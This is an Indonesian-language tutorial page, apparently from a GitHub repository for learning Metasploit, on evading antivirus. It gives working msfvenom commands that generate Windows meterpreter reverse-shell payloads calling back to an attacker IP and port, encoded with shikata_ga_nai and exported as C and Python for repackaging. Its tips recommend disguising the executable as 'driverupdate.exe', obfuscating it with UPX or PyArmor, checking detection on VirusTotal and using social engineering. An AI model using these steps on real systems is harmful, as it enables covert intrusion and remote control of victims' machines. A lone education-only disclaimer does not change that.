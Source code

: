 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Membuat%20Listener.md">Membuat Listener</a>
</p>

# Bypass Antivirus (AV) dengan Metasploit Framework

## A. Kenapa Perlu Bypass AV?

Saat payload buatan Metasploit dieksekusi di sistem target, antivirus modern bisa langsung mendeteksi dan memblokirnya. Oleh karena itu, bypass AV menjadi langkah penting agar payload dapat berjalan tanpa terdeteksi.

## B. Teknik Umum Bypass AV

| Teknik | Deskripsi |
|:--:|:-:|
| Encoding Payload | Mengacak struktur payload agar tidak dikenali signature AV. |
| `Packing/Obfuscation` | Membungkus file dengan enkripsi atau modifikasi struktur file. | 
| Custom Payload Wrapper | Menulis skrip sendiri dalam `Python/C/VB` yang menjalankan `shellcode`. |
| Menghindari Signature Payload | Tidak menggunakan payload default bawaan Metasploit. |

## C. Bypass AV dengan Encoder Metasploit Framework

Gunakan encoder saat membuat payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o shell_encoded.exe
```

Keterangan:
- `-p`: Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST`: IP Attacker: `192.168.1.100`
- `LPORT`: Port listener: `4444`
- `-e`: Encoder (contoh: `x86/shikata_ga_nai`)
- `-i`: Iterasi encoder (semakin banyak, semakin acak tapi bisa tidak stabil)
- `-f`: Format payload: `exe`
- `-o`: Nama file hasil payload: `shell_encoded.exe` 

Encoder Populer di Metasploit:
- `x86/shikata_ga_nai`
- `cmd/powershell_base64`
- `x86/countdown`
- `x86/jmp_call_additive`

Cek Semua Encoder:

```
msfvenom --list encoders
```

## D. Membungkus Payload dalam Bahasa Pemrograman Lain

### 1. Format C:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c -o payload.c
   ```

   Keterangan:
   - `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
   - `LHOST` : IP Attacker: `192.168.1.100`
   - `LPORT` : Port listener: `4444`
   - `-f` : Format payload: `c`
   - `-o` : Nama file hasil payload: `payload.c`

  
   Compile secara manual dan modifikasi kode untuk menyisipkan ke aplikasi.

### 2. Format Python:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python -o payload.py
   ```

   Keterangan:
   - `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
   - `LHOST` : IP Attacker: `192.168.1.100`
   - `LPORT` : Port listener: `4444`
   - `-f` : Format payload: `python`
   - `-o` : Nama file hasil payload: `payload.py`
  
   Bisa dikonversi ke `.exe` dengan `pyinstaller`, dan payload dapat disamarkan.

## E. Catatan Penting

- Teknik bypass AV tidak menjamin selalu berhasil.
- AV signature terus diperbarui -> butuh improvisasi dan eksperimen.
- Gunakan hanya untuk tujuan edukasi dan pengujian legal.

## Tips Tambahan

| Tips | Penjelasan |
|:--:|:-:|
| Ganti nama file | Gunakan nama umum seperti driverupdate.exe |
| Obfuscate | Gunakan tool seperti `UPX`, `PyArmor`, `dll` |
| Test | Gunakan VirusTotal untuk uji deteksi |
| Ganti payload | Hindari payload yang umum seperti `meterpreter/reverse_tcp` |
| Social Engineering | Gabungkan dengan file asli atau teknik persuasi |

<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Exploit%20Real%20Target%3A%20Windows%207%20SP1%20dengan%20EternalBlue%20(MS17-010).md">Exploit Real Target: Windows 7 SP1 dengan EternalBlue (MS17-010)</a>
</p>
